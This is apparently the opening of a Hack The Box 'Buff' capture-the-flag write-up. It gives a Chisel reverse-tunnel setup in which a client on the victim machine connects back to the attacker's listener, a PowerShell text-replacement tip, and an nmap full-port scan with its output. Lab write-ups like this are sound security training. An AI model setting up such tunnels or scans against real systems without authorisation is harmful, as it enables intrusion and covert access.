 There is no simple and easy way to edit text files from a command line in PowerShell like in Linux.  However, for simple edits you can use the `.replace()` method for string objects.

* `(Get-Content $input_txt ).Replace('$this','$that') | Out-File $output_txt`

### Create a port-forwarding reverse tunnel with Chisel

First create your Chisel server on your attacking machine.  The option `-p $port` opens a listener on the port specified.

```text
chisel server -p 8099 --reverse 
```

Then, on the victim machine you need to create a client, specifying which local port you would like to connect to through your reverse tunnel.

```text
./chisel.exe client 10.10.15.82:8099 R:8888:127.0.0.1:8888
```

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.198`.  The options I regularly use are: 

| `Flag` | Purpose |
| :--- | :--- |
| `-p-` | A shortcut which tells nmap to scan all ports |
| `-vvv` | Gives very verbose output so I can see the results as they are found, and also includes some information not normally shown |
| `-sC` | Equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target |
| `-sV` | Does a service version scan |
| `-oA $name` | Saves all three formats \(standard, greppable, and XML\) of output with a filename of `$name` |

At first my scan wouldn't go through until I added the `-Pn` flag to stop nmap from sending ICMP probes. After that it proceeded normally.

```text
zweilos@kali:~/htb/buff$ nmap -p- -sC -sV --reason -oA buff.nmap -Pn 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 10:13 EDT
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.10s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT     STATE SERVICE    REASON  VERSION
7680/tcp open  pando-pub? syn-ack
8080/tcp open  http       syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 474.18 seconds
```
